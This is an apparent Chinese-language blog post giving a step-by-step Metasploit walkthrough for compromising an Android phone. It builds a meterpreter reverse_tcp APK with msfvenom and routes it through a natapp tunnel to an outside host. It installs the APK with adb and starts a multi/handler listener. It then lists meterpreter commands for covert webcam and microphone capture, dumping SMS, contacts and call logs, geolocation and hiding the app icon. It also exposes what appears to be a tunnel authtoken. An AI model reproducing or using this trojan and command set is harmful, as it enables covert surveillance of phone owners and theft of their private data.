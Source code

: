 ```yaml
---
title: Metasploit渗透Android
tags:
  - android安全
abbrlink: 2059191303
date: 2019-08-01 14:44:14
---
```


## 内网穿透
进入https://natapp.cn/  
注册并创建tcp隧道  
复制authtoken  
下载客户端  

```
解压缩
chmod a+x natapp
./natapp

natapp -authtoken=9ab6b9040a624f40

ping server.natappfree.cc 得到服务器ip和端口号
```
## Metesploit木马
mac查看本机ip-设置-网络  
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=本机ip LPORT=natapp端口号 R >test1.apk
```
```
adb install test1.apk
```

## 启动msf
```
msfconsole

msf> use exploit/multi/handler 加载模块

msf> set payload android/meterpreter/reverse_tcp	选择Payload

修改Ip和端口

Ip设置为natapp中配置的本机ip
msf> set LHOST 本机ip		

端口设置为natapp中配置的本地端口	
msf> set LPORT 端口号			

开始监听，等待木马相应
msf> exploit	  

```
## 常用命令
```
Stdapi: Webcam Commands
===================================
	webcam_list  列出网络摄像头
	record_mic [ˈrekərd]/记录/  从默认麦克风录制音频为X秒
	webcam_chat  开始视频聊天
	webcam_snap  从指定的摄像头获取快照
	webcam_stream -i 1  从指定的网络摄像头播放视频流[选择后摄像头]

Android Commands
=================
	activity_start  从URI字符串启动Android活动
	check_root  检查设备是否有根
	dump_calllog  获取调用日志
	dump_contacts  获取联系人列表
	dump_sms  获取短信
	geolocate  利用地理定位获取当前LAT
	wlan_geolocate  利用WLAN信息获取当前LAT
	hide_app_icon  从发射器隐藏应用程序图标
	interval_collect  管理区间收集能力
	send_sms  从目标会话发送短消息
	set_audio_mode 
	sqlite_query  从存储库查询SQLite数据库
	wakelock  启用/禁用Wakelock

```

## LINKS
[natapp](https://natapp.cn)  
[Metasploit之渗透Android手机](https://blog.csdn.net/Aaron_Miller/article/details/80375807)   
[使用Metasploit实现对Android的远程管理](https://www.cnblogs.com/Te7m/p/5938445.html)  
[如何手动将Metasploit的Payloads注入到Android应用中](https://www.freebuf.com/articles/network/138688.html)  